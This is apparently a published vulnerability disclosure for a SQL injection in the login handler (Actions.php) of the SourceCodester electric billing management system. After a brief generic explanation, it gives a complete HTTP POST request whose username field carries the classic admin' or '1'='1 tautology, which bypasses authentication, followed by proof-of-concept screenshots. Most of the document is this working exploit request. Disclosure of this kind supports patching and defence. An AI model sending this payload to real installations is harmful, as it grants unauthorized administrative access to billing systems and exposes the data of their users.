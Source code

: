 electric-billing-management-system Action.php SQL-inject

Exploit Title: electric-billing-management-system Action.php SQL-inject

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

Software Link: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

CMSName: electric-billing-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the SQL injection vulnerability is that the website application did not verify the validity of the data submitted by the user to the server (such as type, length, business parameter validity, etc.), nor did it effectively filter the data input by the user with special characters, thus directly inputting the user's input into the database for execution. This exceeded the expected result of the original design of the SQL statement. The system did not filter the username parameter content correctly in the Actionphp file, resulting in SQL injection using a universal password to bypass login restrictions

  Payload used:
  
  POST /electric_billing_0/electric_billing/Actions.php?a=login HTTP/1.1
  Host: 192.168.2.107
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
  Accept: application/json, text/javascript, */*; q=0.01
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Content-Length: 40
  Origin: http://192.168.2.107
  Connection: close
  Referer: http://192.168.2.107/electric_billing_0/electric_billing/admin/login.php
  Cookie: PHPSESSID=g06tfgab6s50lnkbbi55rl10bb
  Priority: u=0

  username=admin'+or+'1'%3D'1&password=123
Proof of Concept
![image](https://github.com/user-attachments/assets/1fb089d2-a1a1-45a5-a0b4-c18582d7ae52)

![f7e6c0938af23e98a2b858eac7728b7](https://github.com/user-attachments/assets/d3aec4c3-1f54-45ba-a60c-3889e570db1e)
![image](https://github.com/user-attachments/assets/48c548b5-f81c-42e8-ae57-9f847dbf5702)




